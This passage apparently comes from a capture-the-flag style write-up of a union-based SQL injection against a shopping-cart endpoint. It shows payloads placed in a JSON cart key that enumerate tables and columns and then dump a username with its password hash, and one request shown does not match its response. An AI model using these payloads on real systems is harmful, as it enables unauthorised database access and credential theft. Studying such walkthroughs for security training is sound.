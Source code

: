 
So the table has 3 columns. With that information I tried to extract the table names:

```sql
'1' and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database() -- -
```

custom_cart payload:
```json
{"1' and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = database() and table_name ='user'-- -":"9899"}
```

Response:

```html
<th scope="row">1</th>
<td>user,product</td>
<td>9899</td>
<td>$3,00</td>
```

Extracting columns

```sql
'1' and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = database() and table_name ='user'-- -
```

```json
{"1' and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = database() and table_name ='user'-- -":"9899"}
```

Response:

```html
<th scope="row">1</th>
<td>id,username,password</td>
<td>9899</td>
<td>$3,00</td>
```


Extracting the table users (0x3a it's a semicolumn for pretty print):


```sql
'1' and 1=2 union select 1,group_concat(username,0x3a,password),3 from user-- -
```

```json
{"1' and 1=2 union select 1,group_concat(username,0x3a,password),3 from user-- -":"9899"}
```

Response:

```html
<th scope="row">1</th>
<td>james_mason:fc895d4eddc2fc12f995e18c865cf273</td>
<td>9899</td>
<td>$3,00</td>
```
